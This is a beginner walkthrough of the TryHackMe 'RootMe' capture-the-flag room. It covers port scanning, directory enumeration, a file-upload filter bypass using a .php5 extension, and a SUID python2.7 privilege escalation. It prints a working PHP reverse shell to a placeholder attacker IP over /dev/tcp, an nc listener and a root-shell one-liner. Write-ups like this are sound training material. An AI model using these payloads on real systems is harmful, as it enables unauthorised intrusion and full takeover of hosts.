

# TryHackMe - RootMe

> Walkthrough for the **RootMe** CTF on TryHackMe.

## Information

- Platform: TryHackMe
- Difficulty: beginner
- Goal: get a user shell, retrieve `user.txt`, escalate to `root`, then retrieve `root.txt`
- Exposed services: SSH and HTTP

## Table of Contents

1. [Deployment](#1-deployment)
2. [Reconnaissance](#2-reconnaissance)
3. [Web Enumeration](#3-web-enumeration)
4. [Exploitation](#4-exploitation)
5. [User Flag](#5-user-flag)
6. [Privilege Escalation](#6-privilege-escalation)
7. [Root Flag](#7-root-flag)
8. [Key Takeaways](#key-takeaways)

## 1. Deployment

Start by connecting to the TryHackMe network with OpenVPN, then deploy the room machine.

To make the commands easier to read, add the target IP to the attacker machine's `hosts` file:

```bash
echo "<TARGET_IP> rootme.thm" | sudo tee -a /etc/hosts
```



## 2. Reconnaissance

Scan the target to identify exposed services:

```bash
rustscan -a rootme.thm -- -sC -sV
```

Important result:

```text
22/tcp open  ssh   OpenSSH 8.2p1 Ubuntu
80/tcp open  http  Apache httpd 2.4.41 (Ubuntu)
```

Port `80` is running an Apache web application.


## 3. Web Enumeration

Next, enumerate web directories:

```bash
dirsearch -u http://rootme.thm/
```

Interesting paths:

```text
/panel/    200
/uploads/  200
```

Interpretation:

- `/panel/` contains an upload form.
- `/uploads/` exposes uploaded files.

This gives us a clear attack path: upload a malicious file, then execute it from `/uploads/`.

## 4. Exploitation

Create a PHP reverse shell. The IP address must be the attacker machine's TryHackMe VPN IP:

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/<ATTACKER_IP>/4444 0>&1'"); ?>
```

Save it to a file:

```bash
nano php-reverse-shell.php
```

Uploading a `.php` file is blocked by the application.


Bypass the filter by changing the extension to `.php5`:

```bash
mv php-reverse-shell.php php-reverse-shell.php5
```

This time, the upload succeeds.

Before triggering the file, start a listener on the attacker machine:

```bash
nc -lvnp 4444
```

Then browse to the uploaded file:

```text
http://rootme.thm/uploads/php-reverse-shell.php5
```

The listener receives a shell on the target.


## 5. User Flag

Once the shell is available, move to the web user's home directory and read the flag:

```bash
cd ~
ls
cat user.txt
```


## 6. Privilege Escalation

Search for binaries with the SUID bit set:

```bash
find / -user root -perm /4000 -type f 2>/dev/null
```

One interesting binary appears in the results:

```text
/usr/bin/python2.7
```

Because `python2.7` runs with the privileges of its owner, `root`, we can use the SUID technique documented on GTFOBins:

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

The `-p` option preserves the effective privileges. This gives us a root shell.


## 7. Root Flag

Find the `root.txt` file:

```bash
find / -type f -name root.txt 2>/dev/null
```

Then read it:

```bash
cat /root/root.txt
```


## Key Takeaways

- Web enumeration reveals an upload form and a public `/uploads/` directory.
- The upload filter blocks `.php`, but accepts `.php5`.
- A PHP file uploaded to `/uploads/` can be executed from the browser.
- `/usr/bin/python2.7` has the SUID bit set.
- GTFOBins provides a direct method to get a root shell through SUID Python.

## References

- [TryHackMe - RootMe](https://tryhackme.com/room/rrootme)
- [GTFOBins - Python](https://gtfobins.github.io/gtfobins/python/)
- [HackTricks - Reverse Shells](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)

---

The original solving notes are preserved in [Notes.md](Notes.md).
